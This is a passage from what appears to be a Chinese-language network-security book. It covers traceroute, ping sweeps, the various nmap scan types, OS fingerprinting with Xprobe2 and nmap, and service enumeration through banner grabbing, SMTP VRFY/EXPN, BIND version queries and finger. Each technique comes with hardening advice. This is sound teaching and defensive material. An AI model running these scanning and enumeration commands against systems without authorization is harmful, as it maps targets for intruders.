`traceroute` 程序的工作原理是向目的地的较高端口发送 UDP 数据包，最初将 TTL（生存时间）值设置为 `1`，然后每个后续数据包递增 `1`。网关在沿路由转发 IP 数据包之前，会将 IP 数据包的 TTL 字段减少 `1`。如果 IP 数据包的 TTL 等于 `0`，则特定的网关会将“ICMP 生存时间超时”数据包发回给源。因此，`traceroute` 工具通过查看返回的“ICMP 生存时间超时”数据包的源，确定通往目的地沿途网关的 IP 地址。

`traceroute` 工具默认发送 UDP 数据包，但在使用 `-I` 开关运行时可以使其使用 ICMP 数据包。


> 某些网关和防火墙配置为丢弃传入的 UDP 和 ICMP 数据包，以及/或丢弃传出的“ICMP 生存时间超时”数据包。这将导致 `traceroute` 跳过这些网关和防火墙。


有时，防火墙配置为允许源端口为 20（`FTP-Data`）或 53（`DNS`）的数据包。因此，可以使用 `traceroute` 中的 `-p` 选项来设置传出 `UDP` 数据包的源端口，以尝试利用此类防火墙规则。


### 防止传入的跟踪路由请求

可以采取以下步骤来防止传入的跟踪路由请求成功：

- 配置防火墙以丢弃传入的 `UDP` 和 `ICMP` 数据包。
- 配置防火墙以丢弃传出的“`ICMP` 生存时间超时”数据包。
- 如果你必须为 `DNS` 允许传入的 `UDP` 数据包，请配置防火墙以仅允许源端口为 53（`DNS`）且来自特定 `DNS` 服务器 `IP` 地址的传入 `UDP` 数据包。

#### 摘要

本章展示了潜在的入侵者如何利用公开可用的信息来获取有关目标组织的敏感和关键信息，包括如何获取目标网络的管理员联系人、域名、网络块、主机名和 `MX` 记录。在获取这些信息中的任何一项之后，入侵者将更好地了解目标组织的网络架构和管理弱点。你从本章描述的技术中获得的信息对于学习网络扫描和识别过程非常有用，这是黑客方法论的下一步。

## 第 2 章

## 扫描与识别

本章内容：

- Ping 测试
- Ping 扫描
- TCP Ping
- 端口扫描
- 指纹识别
- 摘要

通过本章，你将学习如何扫描网络上的目标主机，探测它们提供的端口，并识别其操作系统的版本。一旦你了解目标主机上存在哪些端口和操作系统，就可以继续执行下一章中所述的枚举过程。

虽然有许多扫描工具可用，但 `Nmap` 是迄今为止最强大、功能最丰富的扫描器。在大多数情况下，我们将使用 `Nmap` 来演示接下来的例子。`Nmap` 工具是免费的，可以从 `http://www.insecure.org/nmap/` 获取。

`Nmapfe` 包，`Nmap` 的图形用户界面前端，也可以从此 `URL` 获取（见图 2-1）。



图 2-1. `Nmapfe`，`Nmap` 的图形用户界面前端

## PING 测试

确定主机是否存活的最快方法是对其执行 `ping` 测试。用于此目的的 `ping` 命令会发出 `ICMP` 回显请求，导致目标以 `ICMP` 回复数据包进行响应。请注意，主机可以配置为不响应 `ICMP` 回显请求。因此，即使主机不响应回显请求，它可能仍然是存活的。

### 使用 ping 工具对主机进行 Ping 测试

使用 `ping` 命令将找到响应 `ICMP` 回显请求的存活主机：

```
[bash]$ ping 192.168.1.1
PING 192.168.1.1 (192.168.1.1) from 192.168.1.1 : 56(84) bytes of data.
64 bytes from 192.168.1.1: icmp_seq=1 ttl=64 time=0.093 ms
64 bytes from 192.168.1.1: icmp_seq=2 ttl=64 time=0.078 ms
64 bytes from 192.168.1.1: icmp_seq=3 ttl=64 time=0.076 ms
64 bytes from 192.168.1.1: icmp_seq=4 ttl=64 time=0.062 ms
^C
--- 192.168.1.1 ping statistics ---
4 packets transmitted, 4 received, 0% loss, time 299ms
rtt min/avg/max/mdev = 0.062/0.077/0.093/0.012 ms
```

## PING 扫描

*Ping 扫描* 是对大量主机进行 `ping` 测试的过程。对于大量目标 `IP` 地址的情况，必须执行 `ping` 扫描以确定响应 `ICMP` 回显请求的存活主机。

### 使用 nmap 执行 Ping 扫描

使用 `nmap` 中的 `-sP` 选项将执行 `ping` 扫描：

```
[bash]$ nmap -sP 192.168.1.*
Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Host (192.168.1.1) appears to be up.
Host (192.168.1.100) appears to be up.
Host (192.168.1.150) appears to be up.
Nmap run completed -- 256 IP addresses (3 hosts up) scanned in 33 seconds
```



### 阻止 ICMP

配置您的防火墙以丢弃传入的 `ICMP` 回显请求和发出的 `ICMP` 回显应答。这将阻止您网络中的主机响应 `ICMP` 回显请求。

## TCP PING

如果向存活主机发送 `TCP` `ACK` 数据包，该主机将回传一个 `RST` 数据包。此方法可用于扫描那些阻止 `ICMP` 回显请求的机器。

### 使用 nmap 执行 TCP Ping

使用 `nmap` 的 `-PT` 选项将执行 `TCP` `ping`。默认情况下，`nmap` 向目标主机的 80 端口发送一个 `ACK` 数据包。使用以下语法可指示 `nmap` 使用其他端口：

```
nmap -PT[port_number] host
```

例如：

```
nmap -PT6000 192.168.1.1
```

如果主机以 `RST` 数据包响应，`nmap` 将认为该主机存活，并立即执行端口扫描。

```bash
# nmap -PT 192.168.1.1
Starting Nmap 7.93 (https://nmap.org)
Interesting ports on (192.168.1.1):
(The 1597 ports scanned but not shown below are in state: closed)

Port    State   Service
22/tcp  open    ssh
80/tcp  open    http
113/tcp open    auth
6000/tcp open   X11

Nmap run completed - 1 IP address (1 host up) scanned in 1 second
```

### 防止 TCP Ping 扫描

始终使用有状态防火墙来保护您的网络。确保配置防火墙以丢弃所有不属于已建立 `TCP` 连接的 `ACK` 数据包。

## 端口扫描

端口扫描是连接到目标主机的 `UDP` 和 `TCP` 端口以判断哪些端口正在监听的进程。可以通过许多不同方式实现端口扫描。以下是最常见和最有用的端口扫描方法。

### TCP Connect

这种扫描类型使用操作系统内核提供的 `TCP` 打开系统调用，连接到目标主机上的指定端口。这是通过 `TCP` 三次握手打开 `TCP` 连接的基本方法：



由于 `TCP-connect` 扫描完成了三次握手，监听目标端口的应用程序将响应该连接请求。这将导致应用程序记录该连接请求。因此，这种端口扫描方法不具备隐蔽性。

### 使用 nmap 执行 TCP-Connect 端口扫描

在 `nmap` 中使用 `-sT` 选项将执行 `TCP-connect` 扫描：

```bash
$ nmap -sT 10.0.0.1

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (10.0.0.1):
(The 1595 ports scanned but not shown below are in state: closed)

Port      State  Service
25/tcp    open   smtp
113/tcp   open   auth
6000/tcp  open   X11

Nmap run completed -- 1 IP address (1 host up) scanned in 0 seconds
```

> `TDP` 和 `UDP` 端口号范围从 1 到 65535。默认情况下，`nmap` 扫描常见的已知端口。扫描所有 65,535 个端口耗时较长，但使用 `nmap` 的 `-p` 标志可以执行此操作：

> `nmap -sT 192.168.1.1 -p 1-65535`

### FTP Bounce 扫描

由于 `FTP` 协议的设计，当 `FTP` 客户端使用“主动”模式请求数据传输时，`FTP` 服务器必须发起连接回到 `FTP` 客户端上的端口。`FTP` 客户端发出 `PORT` 命令，并以其 `IP` 地址和监听端口号作为参数。如果 `FTP` 客户端发出带有另一主机 `IP` 地址的 `PORT` 命令，则 `FTP` 服务器将尝试连接到该主机。因此，`FTP` 协议的此功能可用于代理端口扫描。


`nmap` 命令包含一个 `-b` 标志以执行“FTP bounce”扫描：

```bash
nmap -b username:password@ftp.somecompanyasanexample.com:21 -p 4000-8000 target.somecompanyasanexample.com
```

> FTP 客户端在请求数据传输时可能使用被动模式，这将导致 FTP 客户端连接到 FTP 服务器上的端口以执行数据传输。然而，被动模式 FTP 有其自身的问题。被动模式 FTP 客户端可能容易受到“连接窃取”漏洞的影响。详情请参见第 4 章。

### TCP SYN/半开放

这种扫描类型导致扫描器向目标主机发送 SYN 数据包。如果目标主机正在监听特定端口，它将以 SYN+ACK 响应。如果目标主机存活但未监听特定端口，则将接收到 RST 数据包。由于这种扫描方法没有完成 TCP 三次握手，因此它是隐蔽的，因为目标主机通常不会记录此过程。

### SYN 扫描

在 `nmap` 中使用 `-sS` 标志将执行 SYN 扫描：

```bash
# nmap -sS 192.168.1.150

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.150):
(The 1599 ports scanned but not shown below are in state: closed)

Port      State    Service
22/tcp    open     ssh
113/tcp   open     auth

Nmap run completed -- 1 IP address (1 host up) scanned in 2 seconds
```

### 源端口扫描

由于 FTP 协议的设计，当 FTP 客户端使用主动模式请求数据传输时，FTP 服务器必须发起连接回到 FTP 客户端上的端口。为了便于此操作，许多防火墙被配置为允许所有源端口设置为 20 的传入 IP 数据包。此外，来自 DNS 服务器的 IP 数据包的源端口设置为 53，因此许多防火墙允许所有源端口为 53 的传入数据包。使用 `-g` 开关可以指示 `nmap` 将其数据包的源端口设置为常量：

```bash
nmap -sS -g 20 192.168.1.1
```

## FIN

在此方法中，向目标主机发送一个 FIN 数据包。如果目标主机存活但未监听特定端口，它将以 RST 数据包响应。然而，如果目标主机正在监听特定端口，它不会响应。请注意，微软 Windows 主机在所有情况下都会发送 RST 数据包。这很有趣，因为它有助于识别目标主机为微软 Windows 主机。

> FIN IP 数据包用于终止已建立的 TCP 连接。

### FIN 扫描

在 `nmap` 中使用 `-sF` 标志将执行 FIN 扫描：

```bash
# nmap -sF 192.168.1.100

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.100):
(The 1594 ports scanned but not shown below are in state: closed)

Port      State    Service
21/tcp    open     ftp
22/tcp    open     ssh
25/tcp    open     smtp
53/tcp    open     domain
80/tcp    open     http
110/tcp   open     pop-3
113/tcp   open     auth

Nmap run completed -- 1 IP address (1 host up) scanned in 43 seconds
```

## 反向 Ident

Ident（身份验证协议）服务器监听端口 113 上的连接。如果连接到运行 ident 服务器的主机上监听端口的 TCP 连接已建立，则可以查询 ident 服务器以获取与该连接相关进程的权限级别。

### 反向 Ident 扫描

在 `nmap` 中使用 `-I` 标志将执行 TCP 反向 ident 扫描：

```bash
# nmap -I -sT -p 80 192.168.1.100

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.100):

| 端口 | 状态 | 服务 | 所有者 |
|:---|:---|:---|:---|
| 80/tcp | open | http | nobody |

Nmap run completed -- 1 IP address (1 host up) scanned in 1 second
```

## XMAS

这种扫描方法涉及发送一个设置了 FIN、URG 和 PUSH 标志的 TCP 数据包。如果目标主机正在监听特定端口，它会回传一个 RST 数据包。如果目标主机未监听该端口，它不会响应。

> FIN 数据包通常用于终止已建立的 TCP 连接。URG 数据包表示 IP 数据包内包含需要立即关注的信息，例如在 telnet 会话期间发送的 ^C。PUSH 数据包表示发送方请求接收方立即将所有缓冲数据传递给应用程序。

### XMAS 扫描

在 `nmap` 中使用 `-sX` 标志将执行 XMAS 扫描：

```bash
# nmap -sX 192.168.1.1

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.1):
(The 1597 ports scanned but not shown below are in state: closed)

| 端口 | 状态 | 服务 |
|:---|:---|:---|
| 23/tcp | open | ssh |
| 80/tcp | open | http |
| 113/tcp | open | auth |
| 6000/tcp | open | X11 |

Nmap run completed -- 1 IP address (1 host up) scanned in 6 seconds
```

## 第 2 章：扫描与识别

### 空包扫描

这种类型的扫描涉及向目标主机发送一个 TCP 数据包，该数据包的 TCP 报头中所有标志位均被关闭（置为 0）。如果目标主机正在监听特定的端口，它将不会做出响应。否则，它将发送一个 RST 数据包。

在 `nmap` 中使用 `-sN` 标志可以执行 TCP 空包扫描：

```bash
[bash]$ nmap -sN 192.168.1.100
```

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )

Interesting ports on (192.168.1.100):

(The 1594 ports scanned but not shown below are in state: closed)

Port State Service

21/tcp open ftp

22/tcp open ssh

25/tcp open smtp

53/tcp open domain

80/tcp open http

110/tcp open pop-3

113/tcp open auth

Nmap run completed -- 1 IP address (1 host up) scanned in 41 seconds

### RPC 扫描

这种类型的扫描用于向开放端口发送 NULL 命令，以确定它们是否为 RPC（远程过程调用）端口。一旦确定某个开放端口是 RPC 端口，就会查询并获取绑定到该端口的应用程序信息。

在 `nmap` 中使用 `-sR` 选项可以执行 RPC 扫描：

```bash
[bash]$ nmap -sR 10.0.0.10
```

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )

Interesting ports on (10.0.0.10):

(The 1584 ports scanned but not shown below are in state: closed)

Port State Service (RPC)

7/tcp open echo

21/tcp open ftp

22/tcp open ssh

37/tcp open time

53/tcp open domain

111/tcp open sunrpc (rpcbind V2-4)

113/tcp open auth

512/tcp open exec

513/tcp open login

514/tcp open shell


515/tcp open printer

587/tcp open submission

2049/tcp open nfs (nfs V2-3)

4045/tcp open lockd (nfs V2-3)

7100/tcp open font-service

32771/tcp open sometimes-rpcs (ypserv V1-2)

32772/tcp open sometimes-rpc?

Nmap run completed -- 1 IP address (1 host up) scanned in 40 seconds

### IP 协议扫描

这种扫描类型的目的是确定目标主机支持哪些 IP 协议。它发送针对特定协议的原始 IP 数据包，如果收到 ICMP 协议不可达消息，则表明该特定协议在目标主机上很可能是不受支持的。

在 `nmap` 中使用 `-sO` 标志可以执行 IP 协议扫描：

```bash
(bash)# nmap -sO 192.168.1.1
```

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )

Interesting protocols on (192.168.1.1):

(The 251 protocols scanned but not shown below are in state: closed)

Protocol State Name

1 open icmp

2 open igmp

6 open tcp

17 open udp

### ACK 扫描

这种类型的扫描主要用于确定防火墙规则集。向目标主机发送 ACK 数据包。如果目标主机没有响应或回送一个 ICMP 不可达数据包，那么该端口很可能正被防火墙过滤。如果目标主机回送一个 RST 数据包，那么该端口没有被防火墙过滤。

使用带有 `-sA` 标志的 `nmap` 可以执行 ACK 扫描：

```bash
nmap -sA target_address
```

### 窗口扫描

这种扫描类型虽然与 ACK 扫描类似，但由于 TCP 窗口大小报告方式中的异常，在某些系统上有时有助于检测开放、被过滤和未被过滤的端口。

潜在入侵者可以使用带有 `-sW` 标志的 `nmap` 来执行窗口扫描：

```bash
nmap -sW target_address
```

### UDP 端口扫描

为了确定主机是否在特定的 UDP 端口上监听，会向该端口发送一个 UDP 数据包。如果目标主机未在特定端口上监听，则会收到一个 ICMP 端口不可达数据包。然而，如果目标主机在特定端口上监听，则不会收到此类数据包。由于 UDP 不是面向连接的协议，因此 UDP 扫描是不可靠的。

在 `nmap` 中使用 `-sU` 选项可以执行 UDP 扫描：

```bash
[bash]# nmap -sU 192.168.1.100
```

```
Starting nmap V. 2.54BETA31 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.100):
(The 1454 ports scanned but not shown below are in state: closed)
Port   State   Service
53/udp open    domain
```


### 防御端口扫描

你可以使用以下方法来对抗针对你网络的扫描：

- 配置你的防火墙丢弃发往关闭端口的数据包。这将减缓指向你网络的扫描，因为这会导致端口扫描应用程序在超过超时值后重发 SYN 数据包。只有在反复超时后，端口扫描应用程序才会假设端口被过滤，并继续扫描下一组端口。
- 大多数防火墙和入侵检测系统（IDS）都具有检测端口扫描的能力。利用此功能，并定期检查你的日志。
- 配置你的防火墙不要信任源端口值。有状态防火墙有能力仅允许来自已知建立连接的 FTP 服务器的源端口 20 的数据包。无论如何，不建议使用 FTP 等明文协议。存在更好的替代方案（如 SSH），应该使用它们。此外，除非数据包是发往需要进行区域传输的你的 DNS 服务器，否则不要允许源端口设置为 53 的传入 TCP 数据包。通过授权为你的主机提供服务的 DNS 服务器的 IP 地址来限制 DNS 流量。
- 大多数 FTP 服务器不允许客户端发出带有除客户端 IP 地址以外的其他主机 IP 地址的 PORT 命令。这将防止 FTP 反弹扫描。请查阅你的 FTP 服务器文档和配置以获取详细信息。
- 配置你的防火墙丢弃或重置针对 ident 端口（113）的连接尝试。
- 使用有状态防火墙。这将防止前文提到的大多数扫描。

## 指纹识别

尽管许多操作系统设计者尽最大努力遵循相关的 RFC，但操作系统内核作者有时会对细节做出不同的解释。`Xprobe2` 和 `Nmap` 等工具通过探测这些差异来对目标操作系统进行指纹识别。

### 使用 Xprobe2 对操作系统进行指纹识别

`Xprobe2` 使用 ICMP 数据包来执行指纹识别。结果根据对目标操作系统最佳猜测的评分进行排序。该工具能够区分通往目的地的路径上的过滤设备，可在 http://www.sys-security.com/html/tools/tools.html 获取。

以下是使用 `Xprobe2` 的示例：


```bash
xprobe2 -v target.somecompanyasanexample.com

Xprobe2 v,0,1 Copyright (c) 2002 fygrave@tigerteam.net, oifir@sys-security.com

[+] Target is target.somecompanyasanexample.com
[+] Loading modules.
[+] Following modules are loaded:
[x]ICMP echo (ping)
[x]TTL distance
[x]ICMP echo
[x]ICMP Timestamp
[x]ICMP Address
[x]ICMP Info Request
[x]ICMP port unreachable
[+] 7 modules registered
[+] Initializing scan engine
[+] Running scan engine
[+] Host: 192.168.1.1 is up (Guess probability: 100%)
[x] Target: 192.168.1.1 is alive
[+] Primary guess:
[+] Host 192.168.1.1 Running OS: "Linux Kernel 2.4.5 and above"
(Guess probability: 60%)
[+] Other guesses:
[+] Host 192.168.1.1 Running OS: "Linux Kernel 2.4.0 - 2.4.4"
(Guess probability: 60%)
[+] Host 192.168.1.1 Running OS: "Linux Kernel 2.2.x"
(Guess probability: 60%)
[+] Host 192.168.1.1 Running OS: "Microsoft Windows NT 4
Service Pack 4 and Above" (Guess probability: 60%)
[+] Host 192.168.1.1 Running OS: "NetBSD 1.5.2"
(Guess probability: 50%)
[+] Host 192.168.1.1 Running OS: "Microsoft Windows NT 4
Service Pack 3 and Below" (Guess probability: 50%)
[+] Host 192.168.1.1 Running OS: "Microsoft Windows ME"
(Guess probability: 50%)
[+] Host 192.168.1.1 Running OS:
"Microsoft Windows 2000/2000SP1/2000SP2" (Guess probability: 50%)
[+] Host 192.168.1.1 Running OS:
"Microsoft Windows XP Professional" (Guess probability: 50%)
[+] Host 192.168.1.1 Running OS: "FreeBSD 4.5" (Guess probability: 45%)
[+] Host 192.168.1.1 Running OS: "OS X 10.1.5" (Guess probability: 40%)
[+] Host 192.168.1.1 Running OS: "Microsoft Windows 98/98SE"
(Guess probability: 40%)
[+] Host 192.168.1.1 Running OS: "Digital UNIX 5.6"
(Guess probability: 35%)
[+] Host 192.168.1.1 Running OS: "Sun Solaris 5 (SunOS 2.5)"
(Guess probability: 35%)
[+] Host 192.168.1.1 Running OS: "Sun Solaris 6 (SunOS 2.6)"
(Guess probability: 35%)
[+] Host 192.168.1.1 Running OS: "Sun Solaris 7 (SunOS 2.7)"
(Guess probability: 35%)
[+] Host 192.168.1.1 Running OS: "Sun Solaris 8 (SunOS 2.8)"
(Guess probability: 35%)
[+] Host 192.168.1.1 Running OS: "FreeBSD 3.4"
(Guess probability: 25%)
[+] Cleaning up scan engine
[+] Modules deinitialized
[+] Execution completed.
```

### 使用 nmap 进行操作系统指纹识别

`nmap` 程序也可以被入侵者用来通过 `-O` 标志进行操作系统指纹识别：

```bash
# nmap -O 192.168.1.1

Starting nmap V. 3.00 ( www.insecure.org/nmap/ )
Interesting ports on (192.168.1.1):
(The 1597 ports scanned but not shown below are in state: closed)
Port          State     Service
22/tcp        open      ssh
80/tcp        open      http
113/tcp       open      auth
6000/tcp      open      Xl1

Remote operating system guess: Linux Kernel 2.4.0 - 2.5.20
Uptime 6.584 days (since Sun Oct 27 10:23:37 2002)

Nmap run completed -- 1 IP address (1 host up) scanned in 8 seconds
```

#### 摘要

可以通过 Ping 主机来快速判断它们是否存活。此外，可以使用各种端口扫描技术来确定存活主机上哪些端口是开放的。然后，可以使用操作系统指纹识别工具来识别目标主机上的操作系统版本。一旦入侵者遵循了这种方法论，他或她就可以继续进行下一章中描述的**用户名和服务枚举**过程。

## 第 3 章

## 枚举

本章内容：

- 枚举远程服务
- 自动横幅获取
- 摘要

在对目标主机执行端口扫描后，入侵者将确切知道哪些主机是存活的，以及它们开放了哪些端口。有了这些信息，合乎逻辑的下一步是从监听特定端口的服务中枚举信息，例如用户名、文件共享以及操作系统和应用程序的版本号。只有在获取了这些信息后，攻击者才能继续利用下一章中讨论的特定漏洞。

许多远程服务守护进程在连接到其监听端口时会显示横幅消息。横幅消息可以提供有关服务的信息，例如它们的身份和版本信息。从远程服务获取横幅的过程被称为*横幅获取*。由于大多数守护进程允许修改其横幅，你应该利用这一功能。

> 虽然修改服务器横幅以混淆潜在入侵者是个好主意，但请记住，这不会阻止更高级的攻击者。

###### 枚举远程服务

以下列出了已知存在枚举漏洞的服务。它们按照通常监听的端口号进行排序（请参阅 Unix 或 Linux 主机上的 `/etc/services` 文件以获取完整列表）。

### 使用 Amap 识别远程服务

此处列出的任何服务都可以配置为监听非标准端口。一些服务使用非 ASCII 字符进行通信，因此手动识别起来很困难。可以使用 `Amap` 等工具（可在 <http://www.thehackerschoice.com/releases.php> 获取）来确定此类服务：

```bash
[bash]$ amap -sT intranet.somecompanyasanexample.com 9934
Total amount of tasks to perform: 15
Amap v1.2.1b started at Sun Mar  9 09:30:22 2003, stand back and keep the children away.
Protocol on IP 192.168.1.3 port 9934 tcp matches ssl
Protocol on IP 192.168.1.3 port 9934 tcp matches http
Unidentified ports: None.
Amap v1.2.1b ended at Sun Mar  9 09:30:59 2003
```

在这个例子中，`Amap` 成功发现主机 `intranet.somecompanyasanexample.com` 在 9934 端口上运行 HTTPS。这是一个有用的信息，因为 HTTPS 的标准保留端口是 443。


## 阻止和停止不必要的服务

某些服务被配置为接受来自任何源 IP 地址的连接。例如，电子商务组织的 HTTP 服务器必须接受来自任何 IP 地址的连接，以便允许位于所有地区的远程用户查看该组织的网站。在这种情况下，组织无法隐藏其正在运行 HTTP 服务器的事实。

然而，根据组织的要求和网络架构，某些服务可能只期望来自授权 IP 地址的连接。在这种情况下，应该实施防火墙规则，以确保阻止来自未授权 IP 地址的连接。此外，必须关闭或通过防火墙规则阻止不必要的服务。这将防止不应被未授权远程主机访问的服务被利用和识别。

### FTP（文件传输协议）：21 (TCP)

顾名思义，`FTP` 是一种将文件从一台主机传输到另一台主机的协议。

#### 获取 FTP 服务器横幅

`FTP` 服务器在连接时通常会打印版本信息。可以使用 `FTP` 客户端连接到 `FTP` 服务器以获取其横幅。例如：

```
(bash)$ ftp 192.168.1.1
Connected to 192.168.1.1 (192.168.1.1).
220 192.168.1.1 FTP server (Version wu-2.6.2+Sun) ready.
Name (192.168.1.1:username):
```

也可以使用 `telnet` 客户端直接连接到 `FTP` 端口以获取横幅信息：

```
(bash)$ telnet 192.168.1.1 21
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^'.
220 192.168.1.1 FTP server (Version wu-2.6.2+Sun) ready.
```

如果你正在运行 `WU-FTPD` 服务器，请编辑 `/etc/ftpaccess` 文件并使用 `greeting` 指令更改服务器横幅。例如：

```
greeting text No banner information available. Sorry.
```

`SSH` 是一种用于交换数据的安全协议。它可以用于登录远程机器、远程执行命令以及传输文件。由于 `SSH` 内部通信是加密的，它是 `telnet`、`rlogin` 和 `FTP` 等远程登录方案的有价值替代方案。

尽管 `SSH` 通信是加密的，但 `SSH` 守护进程在使用 `telnet` 客户端连接时会以明文打印版本信息：

```
[bash]$ telnet 192.168.1.1 22
Trying 192.168.1.1....
Connected to 192.168.1.1.
Escape character is '^]'.
SSH-1.99-OpenSSH_3.4p1
```

在前一个例子中，横幅显示的版本信息 `OpenSSH_3.4p1` 可以通过获取并编辑 `OpenSSH` 源代码进行更改。使用 `grep` 命令在获取的 `OpenSSH` 源代码中查找版本字符串。一旦更改了这个字符串，重新编译并重新安装 `OpenSSH`。

> 横幅还显示了前一个例子中的协议版本信息 `SSH-1.99`。不要更改或删除此信息，因为 `SSH` 客户端使用此字符串来识别协议和服务器信息。更改此值可能会导致某些 `SSH` 客户端无法正常工作。

`Telnet` 是一种用于登录远程机器的明文协议。

#### 获取 Telnet 服务器横幅

可以通过简单地 `telnet` 到服务器来获取 `telnet` 守护程序的横幅信息：

```
[bash]$ telnet 192.168.1.1
Trying 192.168.1.1...
Connected to 192.168.1.1.
Escape character is '^}'.

SunOS 5.8
login:
```

#### 更改 Telnet 服务器横幅

为了更改 `telnet` 横幅，你需要编写一个包装器。假设你正在使用 `inetd` 运行 `telnetd`，请编辑你的 `/etc/inetd.conf`，并更改

```
telnet stream tcp nowait root /usr/sbin/in.telnetd in.telnetd
to
telnet stream tcp nowait root /usr/sbin/in.telnetdwrapper in.telnetd
```

现在，你必须创建文件 `/usr/sbin/in.telnetdwrapper`，内容如下：

```
#!/bin/sh
/bin/echo "My banner\r"
exec /usr/sbin/in.telnetd
```

> 如果你使用的是 `xinetd`，请在 `xinetd.d` 目录中找到并相应地编辑 `telnet` 文件。

为了使更改生效，你必须重新启动 `inetd` 或 `xinetd`。

请注意，某些版本的 `telnetd` 允许通过编辑 `/etc/issue.net` 文件来更改横幅信息。

### SMTP（简单邮件传输协议）：25 (TCP)

`SMTP` 是一种在互联网上用于传输电子邮件消息的协议。

#### 获取 SMTP 服务器横幅

可以通过 `telnet` 到运行 `SMTP` 的主机的 25 端口来获取 `SMTP` 守护程序的横幅：

```bash
$ telnet 192.168.1.1 25
Trying 192.168.1.1 ...
Connected to 192.168.1.1.
Escape character is '^]'.
220 192.168.1.1 ESMTP Sendmail 8.10.2+Sun/8.10.2; Tue,
14 Jan 2003 09: 28:02-0500 (EST)
```

#### 更改 SMTP 服务器横幅

如果你使用的是 `Sendmail`，可以通过编辑 `/etc/sendmail.cf` 文件并更改 `SmtgreetingMessage` 字段的值来更改 `SMTP` 横幅。

#### 使用 EXPN 和 VRFY 枚举用户

`EXPN` 和 `VRFY` 是 `SMTP` 支持的两个命令，允许进行用户名枚举。`EXPN` 和 `VRFY` 可用于确认特定用户名的存在。`EXPN` 还可用于枚举特定组邮件别名中所有用户的名称和电子邮件地址。

这是一个使用 `VRFY` 的例子：

```bash
$ telnet mail.somecompanyasanexample.com 25
Trying 10.0.0.11 ...
Connected to mail.somecompanyasanexample.com.
Escape character is '^]'.
220 mail.somecompanyasanexample.com ESMTP Sendmail 8.11.6/
8.11.6; Wed, 15 Jan 2003 22:04:06 -0500 (EST)
VRFY smith
250 2.1.5 <smith@sales.somecompanyasanexample.com>
```

这是一个使用 `EXPN` 的例子：

```bash
$ telnet mail.somecompanyasanexample.com 25
Trying 10.0.0.11 ...
Connected to mail.somecompanyasanexample.com.
Escape character is '^]'.
220 mail.somecompanyasanexample.com ESMTP Sendmail 8.11.6/
8.11.6; Wed, 15 Jan 2003 22:10:11 -0500 (EST)
EXPN marketing-team
250-2.1.5 <bob@marketing.somecompanyasanexample.com>
```

#### 关闭 EXPN 和 VRFY

配置您的 `SMTP` 服务器，使其不支持 `EXPN` 和 `VRFY`。要在 `Sendmail` 中执行此操作，请编辑 `/etc/sendmail.cf` 并将 `PrivacyOptions` 设置为 `authwarnings,noexpn,novrfy`。

### DNS（域名系统）：53（TCP/UDP）

`DNS` 是用于在域名和 IP 地址之间进行转换的协议。

#### 获取 BIND 版本信息

在 Linux 和 Unix 上最常用的 `DNS` 服务器软件是 `BIND`（Berkeley Internet Name Domain）。`dig` 工具可用于查询特定主机上运行的 `BIND` 版本。

例如，如果运行 `BIND` 的主机 IP 地址为 `192.168.1.1`：


```bash
$ dig -t txt -c chaos VERSION.BIND @192.168.1.1
; <<>> DiG 9.2.1 <<> -t txt -c chaos VERSION.BIND @192.168.1.1
; global options: printcmd
; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 22464
; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL:0

; QUESTION SECTION:
;VERSION.BIND.                CH      TXT

; ANSWER SECTION:
VERSION.BIND.                 0   CH  TXT   "8.3.3-REL"

; Query time: 40 msec
; SERVER: 192.168.1.1#53(192.168.1.1)
; WHEN: Wed Jan 15 09:46:22 2003
; MSG SIZE  rcvd: 64
```

## 枚举远程服务

## 配置 BIND 不显示版本信息

编辑 BIND 配置文件 `named.conf`，并覆盖版本号：

```
options { version "Not available"; }
```

您可能还希望使用特定的 ACL 配置 BIND，并限制来自特定主机的查询。有关详细信息，请参阅 BIND 文档。有关 BIND 的更多信息可在 `http://www.isc.org/products/BIND/` 找到。

## Finger：79（TCP）

Finger 是一个用户信息查询程序。对远程主机执行 Finger 操作将提供诸如用户名、IP 地址、空闲时间以及当时登录该主机的个人的真实姓名等信息。

### 使用 Finger 命令枚举远程用户

如果远程主机正在运行 `finger` 守护进程，可以使用命令行 `finger` 工具来查询该主机：

```
finger @host
```

示例：

```
$ finger @192.168.1.1
Login    Name          TTY     Idle   When     Where
bob      Bob             pts/1    8     Wed 14:26   bobaddress.bobsisp.org
rob      Robert Smith    pts/4   51     Wed 12:46   dhcp.robshomeisp.org
tang     Thomas Tang     pts/3   1:08   Wed 10:07   somecasanexample.com
```

也可以对特定用户名执行 `finger` 操作。即使用户在当时未登录，查询特定用户名也会返回有关该用户的一些信息：

```
finger username@host
```

示例：

```
$ finger root@192.168.1.1
Login name:  root        In real life: Sys Admin
Directory: /        Shell: /usr/local/bin/tcsh
Last login Jan 11 14:26:51 on tty2
```

New mail received Wed Jan 15 14:36:29 2003;

unread since Wed Jan 11 14:29:54 2003

No Plan.

Solaris 的旧版 `finger`（`finger` 守护进程）已知包含一个漏洞，如果使用诸如“`a b c d e f g h`”这样的字符串进行查询，它将泄露该主机上所有用户名的列表：

```
`finger 'a b c d e f g h'@host`
```

有关此漏洞的更多信息，请参阅 `http://www.securityfocus.com/bid/3457/info/`。


### 禁用 Finger

如果您正在运行 `finger` 服务器，强烈建议考虑以下建议：

